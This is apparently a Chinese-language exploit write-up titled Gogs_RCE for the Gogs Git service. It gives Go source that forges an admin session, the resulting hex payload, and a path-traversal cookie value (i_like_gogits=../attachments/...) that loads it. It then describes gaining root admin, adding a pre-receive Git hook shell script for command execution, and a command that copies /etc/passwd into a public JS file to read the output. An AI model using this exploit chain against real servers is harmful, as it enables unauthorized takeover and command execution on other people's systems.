





# Gogs_RCE


## 0x01 前台注册普通账号



## 0x02 go 编译伪造管理员session

`go run main.go`

```
package main

import (
    "bytes"
    "encoding/gob"
    "encoding/hex"
    "fmt"
    "io/ioutil"
)

func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
    for _, v := range obj {
        gob.Register(v)
    }
    buf := bytes.NewBuffer(nil)
    err := gob.NewEncoder(buf).Encode(obj)
    return buf.Bytes(), err
}

func main() {
    var uid int64 = 1
    obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
    data, err := EncodeGob(obj)
    if err != nil {
        fmt.Println(err)
    }
    err = ioutil.WriteFile("data", data,0777)
    if err != nil {
        fmt.Println(err)
    }
    edata := hex.EncodeToString(data)
    fmt.Println(edata)
}

```

会在当前目录生成data文件

```
root@kali:~/go/demo# cat readme.txt 
go run main.go 

0eff81040102ff82000110011000005aff82000306737472696e670c0a00085f6f6c645f75696406737472696e670c0300013106737472696e670c05000375696405696e7436340402000206737472696e670c070005756e616d6506737472696e670c060004726f6f74
root@kali:~/go/demo# cat data |xxd
00000000: 0eff 8104 0102 ff82 0001 1001 1000 005a  ...............Z
00000010: ff82 0003 0673 7472 696e 670c 0a00 085f  .....string...._
00000020: 6f6c 645f 7569 6406 7374 7269 6e67 0c03  old_uid.string..
00000030: 0001 3106 7374 7269 6e67 0c05 0003 7569  ..1.string....ui
00000040: 6405 696e 7436 3404 0200 0206 7374 7269  d.int64.....stri
00000050: 6e67 0c07 0005 756e 616d 6506 7374 7269  ng....uname.stri
00000060: 6e67 0c06 0004 726f 6f74                 ng....root
root@kali:~/go/demo# 

```

## 0x03 普通用户发布新版本



附件：
`http://10.20.24.189:18080/attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

设置cookie字段 i_like_gogits 为 新版本 文件路径，拼接前2个字母
例如：

`attachments/c58bf501-7163-44a8-b77d-79c8396609bb`

`i_like_gogits=../attachments/c/5/c58bf501-7163-44a8-b77d-79c8396609bb`

## 0x04 页面刷新，变成root管理员账号



## 0x05 仓库-页面设置，管理Git钩子， 钩子名称 pre-receive 

当服务器为linux平台时，直接写shell脚本，执行命令。

命令触发在仓库上传新文件后。

## 0x06 命令回显-管理面板-应用配置管理-静态文件根目录

通过静态文件根目录 得到绝对路径：例如 /home/git/gogs

shell 脚本内容：

`cat /etc/passwd > /home/git/gogs/public/js/1.js`

网站路径：

`https://127.0.0.1:3000/js/1.js`


